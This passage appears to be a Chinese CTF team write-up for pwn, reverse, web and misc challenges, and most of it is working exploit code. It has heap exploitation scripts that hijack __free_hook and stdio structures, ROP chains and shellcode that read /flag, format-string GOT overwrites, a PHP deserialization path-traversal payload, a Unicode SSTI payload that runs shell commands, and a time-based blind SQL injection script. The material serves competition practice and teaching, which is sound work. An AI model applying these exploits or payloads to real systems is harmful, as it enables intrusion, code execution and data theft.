success("libc base is leaked ==> " + hex(libc_base))
dele(5)

edit(4, b'a' * 0x68 + p64(0x81) +p64(libc_base + libc.symbols["__free_hook"]))

add(6, 0x70)
add(7, 0x70)
edit(7, p64(libc_base + libc.symbols["system"]))

edit(6, b'/bin/sh\x00')

dele(6)
sh.interactive()
```

## bfbf

该处函数存在数组索引溢出，然后这里存在栈里的地址泄露，以及栈里的数据篡改漏洞

而上图的++i --i等需要在另一个函数(如下)里来设置对应的值


而这里我们想让对应的内存单元为对应的选项，就要输入不同的符号来标记一下。

先泄露栈里存放的libc地址和堆地址(用于存放后面打orw时的字符串flag)，然后直接让索引改到返回地址(libc_start_main)，直接从这里开始写rop链。根据沙箱规则来看的话，没有禁用execve，但不知道为啥我打execve没法获取shell。最后还是打的orw，不过read的话,文件描述符不能大于1，所以要先close关掉标准输入，然后再open，从而read write读出flag
```python
from pwn import *
r = process("./attachment.bk.bk")
elf = ELF("./attachment.bk.bk")
libc = ELF("./libc.so.6")
context(arch="amd64",os="linux",log_level="debug")
payload=">"*0x208+'.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>.>'+">"*0x18+".>.>.>.>.>.>.>"
payload+="<"*6+",>,>,>,>,>,>,>,>"*22
r.sendlineafter("BF_PARSER>>",payload)
r.recvline()
canary=u64(r.recv(8).ljust(8,b'\x00'))
success("canary = "+hex(canary))
stack_addr=u64(r.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))
success("stack_addr = "+hex(stack_addr))
r.recvuntil("\x00\x00")
elf_base=u64(r.recvuntil("\x00")[:-1].ljust(8,b'\x00'))-0x1955
success("elf_base = "+hex(elf_base))
libc_base=u64(r.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))-0x24083
success("libc_base = "+hex(libc_base))
pop_rdi_ret=elf_base+0x00000000000019f3
ret=elf_base+0x000000000000101a
bin_sh=libc_base+libc.search(b'/bin/sh').__next__()
pop_rsi_ret=libc_base+0x000000000002601f
pop_rdx_ret=libc_base+0x0000000000142c92
system_addr=libc_base+libc.symbols['system']
close_addr=libc_base+libc.symbols['close']
open_addr=libc_base+libc.symbols['open']
read_addr=libc_base+libc.symbols['read']
puts_addr=libc_base+libc.symbols['puts']
exit_addr=libc_base+libc.symbols['exit']
pause()
payload=p64(pop_rdi_ret)+p64(0)+p64(close_addr)
payload+=p64(pop_rdi_ret)+p64(stack_addr+0xb0)+p64(pop_rsi_ret)+p64(0)+p64(open_addr)
payload+=p64(pop_rdi_ret)+p64(0)+p64(pop_rsi_ret)+p64(stack_addr+0x100)+p64(pop_rdx_ret)+p64(0x50)+p64(read_addr)
payload+=p64(pop_rdi_ret)+p64(stack_addr+0x100)+p64(puts_addr)+p64(pop_rdi_ret)+p64(0)+p64(exit_addr)+b'/flag\x00'.ljust(8,b'\x00')
r.send(payload)
r.interactive()

```
## webheap

2.27的堆，delete中有个uaf，直接通过uaf泄露libc地址，然后改fd为free_hook，并向free_hook写入system地址，然后free一个内容为/bin/sh\x00的堆块就可以了，数据开头的80，81，82，83，分别代表后面接1字节，2字节，4字节，8字节，选项要以86开头。
exp如下：
```python
from pwn import *
context.log_level = 'debug'

sh = process('./webheap')

def make_qword(val):
    return b'\x83' + p64(val)
def make_dword(val):
    return b'\x86' + p32(val)
def make_str(str):
    return b'\xbd' + len(str).to_bytes(1,'little') + str
def packet(opt,idx,size,ctt):
    payload = b'\xb9\x05'
    payload += make_dword(opt)
    payload += make_qword(idx)
    payload += make_qword(size)
    payload += make_str(ctt)
    payload += make_qword(0)
    return payload

def sendpkt(opt,idx,size=0x30,ctt=b'aaa'):
    payload = packet(opt,idx,size,ctt)
    sh.sendlineafter(b'Packet length: ',str(len(payload)).encode())
    sh.sendafter(b'Content: ',payload)
script = ''
def dbg():
    gdb.attach(sh,script)
    pause()
def rbt_bpt(off):
    global script
    script += f'b * $rebase({off:#x})\n'
# rbt_bpt(0x3d80)
def add(idx,size):
    sendpkt(0,idx,size)
def show(idx):
    sendpkt(1,idx)
def dele(idx):
    sendpkt(2,idx)
def edit(idx,ctt):
    sendpkt(3,idx,ctt=ctt)
# dbg()
# sendpkt(0x0,0x0,0x520)
# sendpkt(0x0,0x1,0x30)
add(0,0x520)
add(1,0x60)
dele(0)
show(0)
# libc = ELF('./libc.so.6',checksec=False)
libc = ELF('./libc-2.27.so',checksec=False)

unsort_off = 0x3ebca0
libc_base = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - unsort_off
success("libc_base : "+hex(libc_base))

libc.address = libc_base

add(2,0x60)
add(3,0x60)
# dbg()

dele(1)
dele(2)
# rbt_bpt(0x195f)
freehook = libc.sym['__free_hook']
edit(2,p64(freehook)[:6])
add(4,0x60)
edit(4,b'/bin/sh;')
add(5,0x60)
edit(5,p64(libc.sym['system'])[:6])
dele(4)

sh.interactive()

```

## store
只允许add两次，每次两个堆块，且可以free四次，size需要小于0xfff。
由于一个缓冲区大小是0x400，所以当scanf读入的数据大小大于等于0x400的时候，缓冲区不够存放，就会另外申请一个0x800的大堆块存放数据，然后再free掉。
可以通过上述scanf的特性，通过申请大堆块，使得unsorted bin中的堆块进入largebin中。因此很容易完成largebin attack，然后伪造_IO_FILE，通过exit触发，这里采用了house of apple的调用链。
32位部分的沙盒，seccomp-tools还是按64位的系统调用号显示的，转换如下：



通过int 0x80可以切换到32位，也就可以用open了。这里先用mmap2开辟32位空间给rsp，因为后面是32位系统调用且涉及栈操作（mmap2不涉及栈操作，所以rsp是64位地址也行），故栈需要是32位地址，不然会出错。然后open当前目录，用getents读取到rsp，就是之前mmap2开辟的32位地址空间上。打出目录下的所有文件名后，找到flag文件名的偏移，最后用64位的read和write输出即可。
```python
from pwn import *
context(os = "linux", arch = "amd64", log_level = 'debug')

#io = process("./pwn")
io = remote("172.51.122.123", 9999)
libc = ELF("./libc-2.31.so")

def add(size, content, remark):
	io.sendlineafter("choice: ", b'1')
	io.sendlineafter("Size: ", str(size))
	io.sendafter("Content: \n", content)
	io.sendafter("Remark: \n", remark)

def delete(idx):
	io.sendlineafter("choice: ", b'2')
	io.sendlineafter("Index: ", str(idx))

def edit(idx, content, remark):
	io.sendlineafter("choice: ", b'3')
	io.sendlineafter("Index: ", str(idx))
	io.sendafter("Content: \n", content)
	io.sendafter("Remark: \n", remark)

def show(idx):
	io.sendlineafter("choice: ", b'4')
	io.sendlineafter("Index: ", str(idx))

def quit():
	io.sendlineafter("choice: ", b'5')

if __name__ == '__main__':
	add(0x610, b'\x00', b'\x00') # 0
	add(0x600, b'\x00', b'\x00') # 1
	delete(0)
	show(0)
	io.recvuntil("Content: \n")
	libc_base = u64(io.recv(6).ljust(8, b'\x00')) - libc.sym['__malloc_hook'] - 96 - 0x10
	success("libc_base:\t" + hex(libc_base))
	io.sendlineafter("choice: ", b'1'*0x400)
	edit(0, b'a'*0x10, b'\x00')
	show(0)
	io.recvuntil("a"*0x10)
	heap_base = u64(io.recv(6).ljust(8, b'\x00')) - 0x290
	success("heap_base:\t" + hex(heap_base))
	payload = p64(0)*3 + p64(libc_base + libc.sym['_IO_list_all'] - 0x20)
	edit(0, payload, b'\x00')
	delete(1)
	io.sendlineafter("choice: ", b'1'*0x400)
	
	fake_IO_addr = heap_base + 0xed0
	rop_address = fake_IO_addr + 0xe0 + 0xe8 + 0x70
	
	pop_rdi_ret = libc_base + 0x26b72
	pop_rsi_ret = libc_base + 0x27529
	pop_rdx_r12_ret = libc_base + 0x11c371
	
	rop = p64(0) + p64(pop_rdx_r12_ret) + p64(0) + p64(fake_IO_addr - 0x10)
	rop += p64(pop_rdi_ret) + p64(heap_base + 0x1000)
	rop += p64(pop_rsi_ret) + p64(0x1000)
	rop += p64(pop_rdx_r12_ret) + p64(7) + p64(0)
	rop += p64(libc_base + libc.sym['mprotect'])
	rop += p64(rop_address + len(rop) + 8)
	
	shellcode = asm(
	'''
		mov rax, 0xc0
		mov rbx, 0x500000
		mov rcx, 0x5000
		mov rdx, 3
		mov rsi, 1048610
		xor rdi, rdi
		xor rbp, rbp
		int 0x80

		mov rsp, 0x500a00

		mov rax, 5
		push 0x2e
		mov rbx, rsp
		xor rcx, rcx
		int 0x80

		mov rbx, rax
		mov rax, 0x8d
		mov rcx, rsp
		mov rdx, 0x1337
		int 0x80

		add rcx, 106
		
		mov rax, 5
		mov rbx, rcx
		xor rcx, rcx
		xor rdx, rdx
		int 0x80

		mov rdi, rax
		mov rsi, rsp
		mov rdx, 0x100
		xor rax, rax
		syscall

		mov rdi, 1
		mov rax, 1
		syscall
    ''', arch='amd64')
    
	leave_ret = libc_base + 0x5aa48
	_lock = libc_base + 0x1ee4b0
	magic_gadget = libc_base + 0x157d70 + 26
	'''
	mov    rbp,QWORD PTR [rdi+0x48]
	mov    rax,QWORD PTR [rbp+0x18]
	lea    r13,[rbp+0x10]
	mov    DWORD PTR [rbp+0x10],0x0
	mov    rdi,r13
	call   QWORD PTR [rax+0x28]
	'''
	_IO_wfile_jumps = libc_base + 0x1ecf60
	
	payload = p64(0) + p64(leave_ret) + p64(0) + p64(1)
	payload = payload.ljust(0x38, b'\x00') + p64(rop_address)
	payload = payload.ljust(0x78, b'\x00') + p64(_lock)
	payload = payload.ljust(0x90, b'\x00') + p64(fake_IO_addr + 0xe0)
	payload = payload.ljust(0xc8, b'\x00') + p64(_IO_wfile_jumps)
	payload = payload.ljust(0xd0 + 0xe0, b'\x00') + p64(fake_IO_addr + 0xe0 + 0xe8)
	payload = payload.ljust(0xd0 + 0xe8 + 0x68, b'\x00') + p64(magic_gadget)
	payload += rop + shellcode
	edit(1, payload, b'\x00')
	
	quit()
	io.interactive()

```

# Rev

## comeongo
check1
取name和password的前4位拼接之后base58加密对比
得到name和password的前8位
check2
再依次取4位拼接base64加密，输入之后与X051YmNmRnE=对比
解密将数据带入测试，发现加密后的实际结果为_BinorRe
再将_BinorRe带入发现输入正确
check2取最后四位相加比较以及相差验证，password最后的前两位储存在内存里面
```python
a=[0xDD, 0x8F, 0xA1, 0x64]
c='vG'
d=''
for i in range(4):
  a[i]=a[i]-i
d+=chr((a[0]-ord(c[0])))
d+=chr((a[1]-ord(c[1])))
c+=chr((a[2]-0x3f)//2)
d+=chr((a[2]+0x3f)//2)
c+=chr((a[3]-0x1f)//2)
d+=chr((a[3]+0x1f)//2)
d='GoM0bi13_Bin'+d
c='G3tItEzForRe'+c
print(c)
print(d)
#GoM0bi13_BingGo@
#G3tItEzForRevG0!
```
## windows_call
解出flag前八位
```python
from z3 import *
s = Solver()
flag = [BitVec("flag%d" % i,16) for i in range(2)]
s.add((flag[0]+0x3800-0x10000)<=0x800)
s.add((flag[0]+0x3800)>0x10000)
s.add((flag[1]+0x3500-0x10000)<=0x500)
s.add((flag[1]+0x3500)>0x10000)
s.add(flag[0]&0xff00<0xca00)
s.add(flag[1]&0xff==0xa0)
s.add(flag[1]-flag[0]==0x2B8)
v25=(flag[0]^flag[1])&0xff
v55=(flag[0]^flag[1])>>8
iv=[]
for v23 in range(16):
    iv.append((v55+v23)^(v25+v23))
v57=0
v37=[]
v28=0
for v27 in range(16):
    v29=iv[v27]^(v27-64+0x100)
    v37.append(v29)
    v28+=v29
s.add(v28==0x8a8)
if s.check() == sat:
    m = s.model()
    for i in range(2):
      print(hex(m[flag[i]].as_long()))
else:
    print('wrong')
#0xc9e8
#0xcca0
```
考虑大小端序然后代入提取aes的iv和key
```python
0x4d,0x4f,0x4d,0x43,0x45,0x47,0x45,0x43,0x5d,0x5f,0x5d,0x43,0x45,0x47,0x45,0x43,
0x8d,0x8e,0x8f,0x80,0x81,0x82,0x83,0x84,0x95,0x96,0x97,0x88,0x89,0x8a,0x8b,0x8c,
```
然后aes解密，拼接即可得到flag，注意前面的大写条件
flag{E8C9A0CC8B9854CDD0AC321B790FC74EFA520FBC}

# mimic

## web_mimic
将第一行cmd5解开是123
然后将下面的密文 des解密,按照解密后给的步骤直接出flag
## pwn2-1
堆块上放了个函数指针，指向print函数，由于程序给出了一个函数地址，直接算一下偏移就可以得到magic函数的地址，然后释放两个控制堆块进入tcache，申请0x10的chunk拿出控制堆块，然后，其中一个chunk的控制堆块就变成了内容堆块，直接改print地址为magic，就可以得到flag
exp如下：
```python
from pwn import *
#io = process("./pwn2-1")
io = remote("172.51.122.39", 9999)
elf = ELF("./pwn2-1")
libc = ELF("./libc-2.27.so")

context.arch = "amd64"
context.log_level = "debug"

def add(size, content):
    io.sendlineafter("Your choice :", "1")
    io.sendlineafter("Note size :", str(size))
    io.sendafter("Content :", content)

def delete(idx):
    io.sendlineafter("Your choice :", "2")
    io.sendlineafter("Index :", str(idx))

def show(idx):
    io.sendlineafter("Your choice :", "3")
    io.sendlineafter("Index :", str(idx))

def tip():
    io.sendlineafter("choice :", "5")

tip()
io.recvuntil("let us give you some tips\n")

add_base = int(io.recv(14), 16)
success("elf base is leaked ==> " + hex(add_base))

magic_addr = add_base + 0x980

add(0x30, "0")
add(0x430, "1")
add(0x40, "2")

delete(1)
delete(0)

add(0x10, p64(magic_addr))
show(1)
io.interactive()
```
## pwn1
存在后门函数，并且程序自己泄露了基地址。还有个格式化字符串漏洞。

利用格式化字符串篡改printf函数的got表为system的地址

EXP:
```python
from tools import *
context.log_level='debug'
context.arch='amd64'
p,e,libc=load("./pwn1","172.51.122.26:9999")
p.sendlineafter("Welcome to mimic world,try something\n",str(1))
p.recvuntil("You will find some tricks\n")
base_addr=int(p.recv(),16)-0xA94
log_addr("base_addr")

pause()
p.sendline("2")
payload=fmtstr_payload(offset=8,writes={e.got['printf']+base_addr:e.plt['system']+base_addr})
p.sendline(payload)
p.interactive()
```
## pwn1-1
利用思路:
这题和pwn1一样，只不过需要多泄露一下程序基地址即可，继续篡改printf的got表为system的plt即可。
```python
from tools import*
p,e,libc=load('a')
context.log_level='debug'
context.arch='amd64'
p.recvuntil('Welcome to mimic world,try something')
p.sendline('1')
p.recvuntil('You will find some tricks\n')
leak_start=int(p.recv(14),16)
log_addr('leak_start')
base_addr=leak_start-0xa94
log_addr('base_addr')
debug(p,'pie',0xADA,0xAEE,0xBA8)
printf_got=base_addr+e.got['printf']
p.sendline('2')
p.recvuntil('hello\n')
payload='%9$p'
p.sendline(payload)

start_addr=int(p.recv(14),16)
log_addr('base_addr')   

system_addr=base_addr+e.plt['system']
log_addr('printf_got')
log_addr('system_addr')
payload=fmtstr_payload(offset=8,writes={printf_got:system_addr})
p.sendline(payload)
p.interactive()
```
# web
## ezus
basename函数绕过读源码
`/index.php/tm.php/是?source`
反序列化字符串逃逸
order类的绕过，用cmd://，会把后面的东西当成文件夹解析，就能绕过host，再目录穿越就行了，wakeup就改成员变量的数量就行了
先读hint.php
`username=@0@0@0@@0@0@0@@0@0@0@@0@0@0@@0@0@0@@0@0@0@@0@0@0@&password=";s:8:"password";O:5:"order":3:{s:1:"f";s:7:"trypass";s:4:"hint";s:55:"cmd://prankhub/../../../../../../../../../../../../../var/www/html/hint.php";}}`
知道了flag文件名，再读就行了
`username=@0@0@0@@0@0@0@@0@0@0@@0@0@0@@0@0@0@@0@0@0@@0@0@0@&password=";s:8:"password";O:5:"order":3:{s:1:"f";s:7:"trypass";s:4:"hint";s:52:"cmd://prankhub/../../../../../../../../../../../../../../f1111444449999.txt";}}`


## 没有人比我更懂py
无字母ssti，利用Unicode字符、NFKC，命令执行读flag
```
data={{ｕｒｌ_ｆｏｒ.__ｇｌｏｂａｌｓ__.__ｂｕｉｌｔｉｎｓ__['__ｉｍｐｏｒｔ__']('ｏｓ').ｐｏｐｅｎ('ｃａｔ /ｆｌａｇ').ｒｅａｄ()}}
```
## popsql
fuzz一下，发现很多关键字都被过滤了，但仔细找找能找到对应代替的函数
利用benchmark代替sleep可以进行时间盲注
表名用sys视图来查，字段名可以用sys.statement_analysis来查看操作记录把flag字段名给爆出来
```python
import requests
import time
import string
url = ""
str = "()>< ,@-{}`=.*=?" + string.ascii_letters + string.digits
flag = ''
for i in range(1, len(str)):
    for j in str:
        date = {
            "username": "admin",
            # 爆列名         
            # "password": "123'or(if(strcmp(ord(right((select(query)from(sys.statement_analysis)limit/**/5,1),{})),
            # {}),0,benchmark(10000000,md5(sha1('hello'))))#".format(i,ord(j))             
            # 爆flag
            "password": "123'or(if(strcmp(ord(right((select(group_concat(f1aG123))from(Fl49ish3re)limit/**/0,1),{})),"
                        "{}),0,benchmark(10000000,md5(sha1('hello'))))#".format(i, ord(j))
        }
        st = time.time()
        re = requests.post(url=url, data=date)
        et = time.time()
        t = et - st
        if t >= 2:
            flag += j
            print(flag)
            break
```

# misc
## babymisc

交互算法题
手动试了几次，测出来是6位数字
交互信息bank card password按照常理也是6位
也就是100000-999999
二分法手动试了几次，给的次数不够用
思路：循环交互，随机出一个比较接近999999的数字，再二分法
（就像roll角色，先随一个较高的天赋值一样）
```python
from pwn import *
def roll():
    p.sendlineafter('>', 'Y')
    p.sendlineafter('Please enter a number:', '999000')
    t = p.recv(timeout=0.1)
    if t != 'low':
        return
    p.interactive()
while 1:
    try:
        p = remote('ip', 'port')
        roll()
    except EOFError:
        p.close()
p.close()
```

## Black sheep wall
使用010打开后发现是一个wincc工程项目
使用wincc打开后，发现在vbs 动作1的脚本中发现加密后的flag 

猜测在其他场景中包含了密匙或者加密方法，于是导出该项目的所有文本
发现hint：double&hex，经过搜索后发现double hex即为twice hex加密，最后解密得到flag

